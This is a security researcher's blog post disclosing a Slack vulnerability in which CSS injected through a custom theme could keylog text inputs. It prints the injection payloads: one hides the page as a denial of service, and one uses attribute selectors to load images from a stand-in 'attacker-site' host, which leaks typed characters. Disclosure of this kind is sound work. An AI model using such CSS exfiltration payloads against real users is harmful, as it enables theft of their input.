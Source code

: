 title: "Keylogging users via Slack themes"
keywords:
- slack
- vulnerability
- whitehat
- hackerone
tags:
- slack
- vulnerability
- whitehat
- hackerone
categories:
- security disclosures
thumbnailImage: https://images.fletchto99.com/blog/2019/november/slack-vulnerability/thumbnail.png
date: 2019/11/11
---

Back in August I found a [vulnerability in Slack](https://hackerone.com/reports/679969) which allowed me to keylog slack input via custom themes.

<!-- excerpt -->

{% image center clear https://images.fletchto99.com/blog/2019/november/slack-vulnerability/banner.png %}


Back in August I found a [vulnerability in Slack](https://hackerone.com/reports/679969) which allowed me to keylog slack input via custom themes. I came across this vulnerability when we were having some discussions in my work's slack regarding using CSS to change the font to `comic-sans`, as seen below:

{% codeblock lang:css %}
#FFFFFF;}*{FONT-FAMILY:"COMIC SANS MS"!IMPORTANT;}STYLE~DIV,DIV[TABINDEX="-1"]
{% endcodeblock %}

Neat right? However this is pretty harmless and likely wouldn't result in a bounty - maybe a `low` for no input sanitization. However, I was determined to find a way in which this could genuinely become dangerous. A co-worker, [d12](https://github.com/d12), pointed out that `#FFFFFF;} html {display:none;}` could be used to DoS the user's slack instance, which is certainly much worse than just changing fonts. It should be noted that once one slack instance was modified all other instances were also modified since the theme was persisted across clients (yes... I managed to lock myself out of multiple slack test instances).

However, my ultimate goal was data exfiltration... wouldn't it be great if we could see all the links to cat memes in the slack instance we're not a part of? This is the point in which I learned that CSS supports attribute selectors for [specific values](https://github.com/maxchehab/CSS-Keylogging/). More specifically that CSS allows you to determine the most recent value added to any type of input via the `[value$="<value>"]` selector. Furthermore, slack allows loading of external images. With this knowledge I present to you my very own custom slack theme:

{% codeblock lang:css %}
#FFFFFF;}INPUT[TYPE="TEXT"][VALUE$="A"] { BACKGROUND-IMAGE: URL("https://attacker-site/A"); },#350d36,#1264A3,#FFFFFF,#350D36,#FFFFFF,#2BAC76,#CD2553
{% endcodeblock %}

This theme is capable of determining when the user types the letter `A` into an `<input type="text">` on slack. When the user does this the CSS will load the background image `https://attacker-site/A` which can then be logged server side to indicate the user typed the letter A. This was as much of a PoC I needed to demo to slack that it was indeed possible to exfiltrate data provided the user actually applied the custom theme. Thankfully the 1-click custom theme option was not exploitable so it still required the user to copy/paste the theme which would certainly raise suspicions.

Here's the PoC video I sent slack of the request being logged locally. Note how I go into channels instead of typing a message, that's because the channel option used a text input while the message input was more complicated. I'm sure it would have been possible to write some CSS to select on the attributes there but this was enough to prove exfil was even possible.

{% video https://images.fletchto99.com/blog/2019/november/slack-vulnerability/poc.mov 100% PoC exploit video %}

Slack has kindly decided to disclose the vulnerability on [hackerone](https://hackerone.com/reports/679969).


## Reward

For finding this vulnerability slack awarded me $500. I'm using that money to match donations to my Movember campaign. If you'd like to learn more or donate click [here](https://mobro.co/fletchto99).

<!-- more -->
